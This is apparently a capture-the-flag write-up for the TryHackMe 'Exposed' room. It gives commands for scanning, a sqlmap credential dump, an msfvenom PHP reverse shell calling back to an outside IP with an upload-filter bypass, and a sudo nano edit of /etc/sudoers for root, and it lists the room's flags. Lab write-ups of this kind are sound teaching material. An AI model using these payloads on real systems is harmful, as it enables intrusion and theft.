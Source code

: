 # Exposed | TryHackMe Write-up

##  Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

##  Enumeration

### Nmap

Quick port scan:

```bash
sudo nmap -sC -sV -oN <IP>
```



Full port scan:

```bash
nmap -p- -oN <IP>
```



**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

##  SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.



### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```



**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password123`

Use them to log in to the site.

---

##  File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.



URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```



Reverse shell obtained with `www-data` privileges.

---

##  Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

##  Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

##  Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
